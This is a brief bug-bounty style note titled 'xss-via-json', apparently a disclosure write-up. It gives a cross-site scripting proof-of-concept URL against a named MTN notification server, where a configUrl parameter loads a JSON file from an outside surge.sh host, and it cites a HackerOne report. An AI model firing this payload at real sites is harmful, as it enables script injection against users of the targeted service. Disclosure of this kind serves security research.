 # xss-via-json

SO the payload will popup the xss https://notification-server-v2.sz-my.mtn.com/index.html?configUrl=https://jumpy-floor.surge.sh/test.json on api path 

refference:https://hackerone.com/reports/2321874
